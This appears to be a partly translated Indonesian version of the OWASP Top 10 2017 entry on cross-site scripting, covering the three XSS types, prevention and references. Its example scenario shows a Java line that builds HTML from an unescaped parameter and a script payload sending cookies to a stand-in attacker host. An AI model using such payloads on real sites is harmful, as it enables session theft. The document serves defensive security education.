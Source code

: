 # A7:2017 Cross-Site Scripting (XSS)

| Threat agents/Attack vectors | Security Weakness           | Impacts               |
| -- | -- | -- |
| Akses Lvl: Eksploitasi 3 | Prevalensi 3 : Deteksi 3 | Teknis 2 : Bisnis |
| Tool otomatis dapat  mendeteksi dan melakukan exploit pada semua tiga type XSS, and ada Framework eksploitasi yang tersedia secara gratis. | XSS adalah kerentanan paling umum kedua di OWASP Top 10, dan  masih ditemukan di sekitar dua pertiga dari semua aplikasi. Tool otomatis dapat menemukan beberapa kerentanan XSS secara otomatis, Khususnya dalam aplikasi pemrograman seperti PHP, J2EE / JSP, dan ASP.NET. | Dampak pada XSS untuk kategori medium untuk Reflected XSS dan DOM XSS dan Kritikal untuk stored XSS, dengan eksekusi kode jarak jauh di browser korban, seperti mencuri kredensial, sesi, atau mengirimkan malware ke korban |

## Apakah Aplikasi itu Rentan?

Ada Tiga Jenis XSS, biasanya menargetkan browser pengguna:

* **Reflected XSS**: Aplikasi atau API menyertakan masukan pengguna yang tidak divalidasi dan tidak lolos sebagai bagian dari keluaran HTML. Serangan yang berhasil memungkinkan penyerang mengeksekusi HTML dan JavaScript sewenang-wenang di browser korban. Biasanya pengguna perlu berinteraksi dengan beberapa tautan berbahaya yang mengarah ke laman yang dikendalikan penyerang, seperti situs web lubang air berbahaya, iklan, atau sejenisnya
* **Stored XSS**: Aplikasi atau API menyimpan masukan pengguna yang tidak dibersihkan yang dilihat di lain waktu oleh pengguna lain atau administrator. XSS yang disimpan sering dianggap sebagai risiko tinggi atau kritis.
* **DOM XSS**: Kerangka kerja JavaScript, aplikasi halaman tunggal, dan API yang secara dinamis menyertakan data yang dapat dikontrol penyerang ke halaman rentan terhadap DOM XSS. Idealnya, aplikasi tidak akan mengirim data yang dapat dikontrol penyerang ke JavaScript API yang tidak aman.
Serangan XSS termasuk pencurian sesi user, account takeover, MFA bypass_, _DOM node replacement_ atau merubah tampilan website target (seperti panel login trojan), 
serangan terhadap browser pengguna seperti unduhan perangkat lunak berbahaya, pencatatan log kunci, dan serangan sisi klien lainnya.

## Bagaimana Cara Pencegahannya

Pencegahan XSS membutuhkan pemisahan pada data yang tidak terpecaya dari konten browser yang aktif. Ini dapat dicapai dengan:

* Menggunakan kerangka kerja yang secara otomatis lolos dari XSS berdasarkan desain, seperti Ruby on Rails terbaru, React JS. Pelajari batasan perlindungan XSS setiap framework dan tangani kasus penggunaan yang tidak tercakup dengan tepat.
* Mengeluarkan semua data yang tidak dipercaya berdasarkan konteks HTML (_body, attribute, JavaScript, CSS, atau URL)_ akan menutup celah Reflected and Stored XSS.Lihat OWASP XSS Prevention Cheat Sheet untuk detail dari teknik mengeluarkan data.
* Applying context-sensitive encoding when modifying the browser document on the client side acts against DOM XSS. When this cannot be avoided, similar context sensitive escaping techniques can be applied to browser APIs as described in the OWASP Cheat Sheet 'DOM based XSS Prevention'.
* Enabling a [Content Security Policy (CSP)](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) as a defense-in-depth mitigating control against XSS. It is effective if no other vulnerabilities exist that would allow placing malicious code via local file includes (e.g. path traversal overwrites or vulnerable libraries from permitted content delivery networks).

## Example Attack Scenario

**Scenario #1**: The application uses untrusted data in the construction of the following HTML snippet without validation or escaping:

`(String) page += "<input name='creditcard' type='TEXT' value='" + request.getParameter("CC") + "'>";`
The attacker modifies the ‘CC’ parameter in the browser to:

`'><script>document.location='http://www.attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>'`

This attack causes the victim’s session ID to be sent to the attacker’s website, allowing the attacker to hijack the user’s current session.

**Note**: Attackers can use XSS to defeat any automated Cross-Site Request Forgery (CSRF) defense the application might employ.

## References

### OWASP

* [OWASP Proactive Controls: Encode Data](https://www.owasp.org/index.php/OWASP_Proactive_Controls#tab=OWASP_Proactive_Controls_2016)
* [OWASP Proactive Controls: Validate Data](https://www.owasp.org/index.php/OWASP_Proactive_Controls#tab=OWASP_Proactive_Controls_2016)
* [OWASP Application Security Verification Standard: V5](https://www.owasp.org/index.php/Category:OWASP_Application_Security_Verification_Standard_Project)
* [OWASP Testing Guide: Testing for Reflected XSS](https://www.owasp.org/index.php/Testing_for_Reflected_Cross_site_scripting_(OTG-INPVAL-001))
* [OWASP Testing Guide: Testing for Stored XSS](https://www.owasp.org/index.php/Testing_for_Stored_Cross_site_scripting_(OTG-INPVAL-002))
* [OWASP Testing Guide: Testing for DOM XSS](https://www.owasp.org/index.php/Testing_for_DOM-based_Cross_site_scripting_(OTG-CLIENT-001))
* [OWASP Cheat Sheet: XSS Prevention](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet)
* [OWASP Cheat Sheet: DOM based XSS Prevention](https://www.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet)
* [OWASP Cheat Sheet: XSS Filter Evasion](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)
* [OWASP Java Encoder Project](https://www.owasp.org/index.php/OWASP_Java_Encoder_Project)

### External

* [CWE-79: Improper neutralization of user supplied input](https://cwe.mitre.org/data/definitions/79.html)
* [PortSwigger: Client-side template injection](https://portswigger.net/kb/issues/00200308_clientsidetemplateinjection)
